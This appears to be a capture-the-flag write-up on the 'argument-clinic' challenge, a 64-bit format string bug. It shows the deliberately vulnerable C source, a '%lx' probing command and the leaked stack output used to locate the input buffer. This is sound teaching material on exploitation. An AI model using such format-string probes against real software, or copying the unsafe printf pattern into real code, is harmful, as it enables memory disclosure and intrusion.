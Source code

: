 ```yaml
---
title:  "Writeup: Argument Clinic"
date:   2019-05-03 16:00:00
categories: writeup
author: Matt McDonald
layout: post
---
```


Once we've familiarized ourselves with format string vulnerabilities, we can
attempt a more complicated exploit. In ```format4```, there was a convenient
"win" function, just waiting to be called. However, in a more realistic
program, there won't be a convenient function like this waiting to be called.
This calls for us to find a different way to access the flag file.

Let's take a look at the source code for the argument-clinic problem:

```
int main(int argc, char** argv) {
    char temp[1024];
    printf("Write something already.\n");
    fgets(temp, 1024, stdin);
    printf("You entered: ");
    printf(temp);
    printf("\n");
    
    if (strchr(strtok(temp, " "), 0) == temp) {
        printf("Way to enter nothing, loser.\n");
    } else {
        printf("You're still lame.\n");
    }
}
```

Clearly, we have another format string vulnerability here. The binary begins by
reading from ```stdin``` into a buffer, and then calls ```printf``` with our
input as the first argument. With a cleverly crafted exploit string, this will
allow us to read and write values on the stack. To start, we'll have to find the
offset from the top of the stack to the buffer. To do this, we add a bunch of a's
to our string, and look for the spot in memory including ```0x61```.

The argument-clinic binary happens to be 64-bit, so instead of writing four a's
like we would with the earlier ```format``` problems we'll write eight, and
instead of the ```%x``` format specifier we'll use ```%lx```, for "long hex". 

```
> python -c 'print "aaaaaaaa" + "%lx."*100' | ./argument_clinic
Write something already.
You entered: aaaaaaaa65746e6520756f59.0.0.7fc2f80914c0.7ffff55d2fa0.7ffff55d3438.1f82003f8.6161616161616161.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.a.0.0.1.291686517cc52.0.7fc2f8029170.7fc2f8029170.7fc2f7e18bb8.7ffff55d3310.7fc2f7e044d7.0.0.1.7fc2f8029728.7fc2f8029100.1.7fc2f80914c0.7fc2f7e0a67f.7fc2f8029710.0.0.7ffff58c2268.1958ac0.7fc2f7bb3787.7ffff55d3360.0.7fc2f8029738.1.7ffff55d32c0.3.7ffff55d32b0.0.3ae75f6.0.0.0.0.6562b026.7fc2f8029a98.7ffff55d3358.7ffff55d3390.

You're still lame.
```
